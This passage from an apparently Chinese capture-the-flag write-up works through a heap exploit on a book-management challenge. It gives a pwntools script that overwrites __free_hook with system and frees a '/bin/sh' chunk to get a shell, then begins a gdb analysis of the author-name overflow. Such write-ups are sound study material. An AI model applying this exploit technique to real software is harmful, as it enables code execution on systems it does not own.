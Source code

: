 ```python
log.info("Searching __free_hook & system & /bin/sh in libc...")
free_hook = libc.symbols["__free_hook"] + libc_addr
system = libc.symbols["system"] + libc_addr
binsh = libc.search("/bin/sh").next() + libc_addr
time.sleep(1)
log.success("__free_hook address: 0x%x" % free_hook)
log.success("system address: 0x%x" % system)
log.success("/bin/sh address: 0x%x" % binsh)
time.sleep(1)
log.info("Changing book2's pointers...")
time.sleep(1)
payload2 = p64(binsh) + p64(free_hook)
edit(1, payload2)
p.recvuntil("> ")
time.sleep(1)
log.success("Book2's name and description's pointer has been changed!")
log.info("Book2's name --> /bin/sh")
log.info("Book2's desc --> free_hook")
log.info("Prepare to change book2's description, also known as __free_hook.")
time.sleep(1)
payload3 = p64(system)
edit(2,payload3)
p.recvuntil("> ")
time.sleep(1)
log.success("Now __free_hook's address is system's address!")
log.info("We just need to free book2.")
time.sleep(1)
delete(2)
log.info("Ready in 3 seconds...")
time.sleep(3)
log.success("PWN!!")

p.interactive()
```

gdb调试，如下图所示：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1599982490929-37023677-899f-4a28-9da9-80fde31f3d1d.png)

从上面这张图看到，一开始输入32个字节的任意字符：“aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa”，这样我们就将存放作者名称的填满，并且使其发生了溢出。

对应的payload如下：

```python
p.recvuntil("Enter author name: ")
p.sendline("a" * 32)
```

接着我们**<font style="color:#F5222D;">Ctrl+C</font>****<font style="color:#F5222D;">进入调试界面</font>**<font style="color:#000000;">，定位刚刚输入的字符串，我们介绍两种方式</font>

## <font style="color:#000000;">1、定位输入的作者名的地址</font>
### 第一种方式
<font style="color:#000000;">因为在IDA里可以看出作者名存放在off_202018（）中，因此我们只需要知道</font>**<font style="color:#F5222D;">代码段的基地址</font>**<font style="color:#000000;">再加上</font><font style="color:#000000;">off_202018的偏移就可以找到存放作者名的指针了。</font>
